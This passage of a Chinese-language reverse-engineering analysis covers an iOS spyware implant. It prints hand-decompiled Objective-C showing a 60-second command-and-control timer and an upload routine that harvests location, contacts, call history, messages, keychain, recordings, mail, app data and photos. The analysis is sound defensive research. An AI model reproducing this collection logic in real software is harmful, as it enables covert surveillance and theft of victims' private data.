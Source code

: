 [com.apple.coretelephony.Identity.get](http://iphonedevwiki.net/index.php/CoreTelephony.framework)允许检索设备的电话号码。



## 0x02 逆向分析

二进制文件编译的时候没有优化，主要是用Objective-C编写的，下面的代码片段大多是手工反编译的，有一些来自 [hex-rays](https://www.hex-rays.com/)。

#### <a class="reference-link" name="%E7%BB%93%E6%9E%84%E4%BD%93"></a>结构体

植入代码由两个Objective-C类组成：Service 和Util 以及各种辅助函数。植入代码开始于创建Service 类的实例并在获取当前[runloop](https://developer.apple.com/library/archive/documentation/Cocoa/Conceptual/Multithreading/RunLoopManagement/RunLoopManagement.html)的句柄运行它之前调用start selector。

```
-[Service start] `{`
  [self startTimer];
  [self upload];
`}`
```

[Service startTimer] 将会每60秒调用一次Service 实例的timerHandle 方法：

```
// call timer_handle every 60 seconds
-[Service startTimer] `{`
  timer = [NSTimer scheduledTimerWithTimeInterval:60.0
                                        target:self
                                        selector:SEL(timer_handle)
                                        userInfo:NULL
                                        repeats:1]
  old_timer = self-&gt;_timer;
  self-&gt;_timer = timer;
  [old_timer release]
`}`
```

timer_handle 是负责处理命令和控制通信的主要函数，在设备进入timer_handle 循环之前，首先进行上传：

```
-[Service upload] `{`
  [self uploadDevice];
  [self requestLocation];
  [self requestContacts];
  [self requestCallHistory];
  [self requestMessage];
  [self requestNotes];
  [self requestApps];
  [self requestKeychain];
  [self requestRecordings];
  [self requestSmsAttachments];
  [self requestSystemMail];
  if (!self-&gt;_defaultList) `{`
    self-&gt;_defaultList = [Util appPriorLists];
  `}`

  [self requestPriorAppData:self-&gt;_defaultList];
  [self requestPhotoData];

  ...
`}`
```
